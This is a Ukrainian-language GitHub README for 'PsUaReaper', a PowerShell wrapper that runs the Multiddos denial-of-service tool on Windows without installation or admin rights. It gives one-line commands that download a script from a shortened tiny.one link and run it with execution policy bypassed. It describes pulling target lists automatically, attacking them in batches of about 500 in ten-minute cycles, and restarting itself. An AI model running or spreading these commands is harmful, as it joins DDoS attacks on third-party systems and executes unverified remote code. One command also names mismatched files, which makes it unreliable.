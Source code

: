 # PsUaReaper
PowerShell-враппер для запуску Multiddos на Windows. 
- Не потребує інсталяції додатковий програм, все необхідне розташовується в C:\PsUaReaper
- Не потребує адміністративних прав для запуску
- Сумісніть з Windows 7 SP1
- Автоматичне оновлення цілей

Джерела натхнення:
[KarboDuck](https://github.com/KarboDuck)
[ahovdryk](https://github.com/ahovdryk)

## Перший старт:
1. Найлегший шлях для старих систем (Windows 7, 8, 8.1, 10 до білда 1803):
- Завантажити з офіційного репозиторію останню версію [PowerShell](https://github.com/PowerShell/PowerShell/releases/download/v7.2.4/PowerShell-7.2.4-win-x86.zip)
- Розпакувати архів в будь який каталог і запустити з нього <code>pwsh.exe</code>
- Виконати команду:
```
(new-object System.Net.WebClient).DownloadFile("https://tiny.one/jxr7yadn", "$env:tmp\setup.ps1"); &"$env:tmp\Setup1.ps1";ri "$env:tmp\Setup.ps1"
```
2. Windows 10 білд 1803 і новіше:
- Скопіювати команду
```
cmd.exe /c curl -L https://tiny.one/jxr7yadn -o %tmp%\setup.ps1 && powershell -executionpolicy bypass -file "%tmp%\setup.ps1" && del "%tmp%\setup.ps1"
```
- Натиснути Win+R
- Вставити команду і натиснути Enter

## Важливі зауваження
(!) Наступні запуски можливі з файлу C:\PsUaReaper\Start.cmd</br>
(!) При старті відбувається пошук цілей зі списку KarboDuck</br>
(!) Скрипт працює тільки з унікальними цілям</br>
(!) Перевіряється оновлення PowerShell i Python скриптів</br>
(!) Список цілей розбивається на групи по 500 (+/-) і навантажується почергово протягом 10 хвилин</br>
(!) По завершенню циклу, скрипт зам себе перезапускає</br>
(!) Для завершення необхідно натиснути Ctrl+C</br>
